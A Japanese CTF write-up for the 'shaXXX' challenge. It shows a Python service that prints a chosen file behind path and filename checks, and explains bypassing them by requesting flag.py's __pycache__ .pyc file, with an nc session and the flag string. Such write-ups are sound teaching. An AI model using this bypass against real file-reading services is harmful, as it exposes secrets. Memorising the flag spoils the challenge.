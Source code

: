 # shaXXX

## 問題の説明

このようなプログラムが実行されており、flagの値を取得できればフラグが得られます。

```py
import os
import sys
import shutil
import hashlib
from flag import flag


def initialization():
    if os.path.exists("./flags"):
        shutil.rmtree("./flags")
    os.mkdir("./flags")

    def write_hash(hash, bit):
        with open(f"./flags/sha{bit}.txt", "w") as f:
            f.write(hash)

    sha256 = hashlib.sha256(flag).hexdigest()
    write_hash(sha256, "256")

    sha384 = hashlib.sha384(flag).hexdigest()
    write_hash(sha384, "384")

    sha512 = hashlib.sha512(flag).hexdigest()
    write_hash(sha512, "512")


def get_full_path(file_path: str):
    full_path = os.path.join(os.getcwd(), file_path)
    return os.path.normpath(full_path)


def check1(file_path: str):
    program_root = os.getcwd()
    dirty_path = get_full_path(file_path)
    return dirty_path.startswith(program_root)


def check2(file_path: str):
    if os.path.basename(file_path) == "flag.py":
        return False
    return True


if __name__ == "__main__":
    initialization()
    print(sys.version)
    file_path = input("Input your salt file name(default=./flags/sha256.txt):")
    if file_path == "":
        file_path = "./flags/sha256.txt"
    if not check1(file_path) or not check2(file_path):
        print("No Hack!!! Your file path is not allowed.")
        exit()
    try:
        with open(file_path, "rb") as f:
            hash = f.read()
        print(f"{hash=}")
    except:
        print("No Hack!!!")
```

このプログラムでは任意のファイルの内容を表示することができます。たとえば、フラグのハッシュ化値が記載されている./flags/sha256.txtなどを表示することができます。

しかし、任意のファイルの値を表示することはできず、2つの関数によって制限されています。

```py
def get_full_path(file_path: str):
    full_path = os.path.join(os.getcwd(), file_path)
    return os.path.normpath(full_path)


def check1(file_path: str):
    program_root = os.getcwd()
    dirty_path = get_full_path(file_path)
    return dirty_path.startswith(program_root)


def check2(file_path: str):
    if os.path.basename(file_path) == "flag.py":
        return False
    return True
```

check1では現在のディレクトリより上の階層のファイルの読み取りを制限しています。ディレクトリトラバーサルの対策です(が、本問においては対策するメリットがあまりありません)。

check2では、ファイル名がflag.pyであるファイルの読み取りを制限しています。

## 解法

main.pyはflag.pyを読み込んでいますが、Pythonはその際に読み込み速度の向上などを目的として、`__pycache__`というキャッシュファイルを作成します。

flag.pyのキャッシュファイル名は`__pycache__/flag.cpython-{ここにPythonのバージョン}.pyc`という形式になっています。また、幸いにも問題の`print(sys.version)`の箇所でPythonのバージョンは判明しています。たとえば、Python 3.11.3を使用している場合、ファイル名は`__pycache__/flag.cpython-311.pyc`となります。なお、このファイル名はcheck1, check2のどちらの制限にも引っかかりません。

このようにして得られるキャッシュファイルの中身はこのようになっています。当然、キャッシュファイルなのでフラグが記載されています。

```txt
\xa7\r\r\n\x00\x00\x00\x00\n\x12ud<\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\xf3\n\x00\x00\x00\x97\x00d\x00Z\x00d\x01S\x00)\x02s\x1b\x00\x00\x00ctf4b{c4ch3_15_0ur_fr13nd!}N)\x01\xda\x04flag\xa9\x00\xf3\x00\x00\x00\x00\xfa\x18/home/ctf/shaXXX/flag.py\xfa\x08<module>r\x06\x00\x00\x00\x01\x00\x00\x00s\x0e\x00\x00\x00\xf0\x03\x01\x01\x01\xe0\x07%\x80\x04\x80\x04\x80\x04r\x04\x00\x00\x00
```

よって、以下のようにしてフラグを得ることができます。

```sh
$ nc localhost 25612
3.11.3 (main, May 10 2023, 12:26:31) [GCC 12.2.1 20220924]
Input your salt file name(default=./flags/sha256.txt):__pycache__/flag.cpython-311.pyc
hash=b'\xa7\r\r\n\x00\x00\x00\x00\n\x12ud<\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\xf3\n\x00\x00\x00\x97\x00d\x00Z\x00d\x01S\x00)\x02s\x1b\x00\x00\x00ctf4b{c4ch3_15_0ur_fr13nd!}N)\x01\xda\x04flag\xa9\x00\xf3\x00\x00\x00\x00\xfa\x18/home/ctf/shaXXX/flag.py\xfa\x08<module>r\x06\x00\x00\x00\x01\x00\x00\x00s\x0e\x00\x00\x00\xf0\x03\x01\x01\x01\xe0\x07%\x80\x04\x80\x04\x80\x04r\x04\x00\x00\x00'
```

flag: `ctf4b{c4ch3_15_0ur_fr13nd!}`
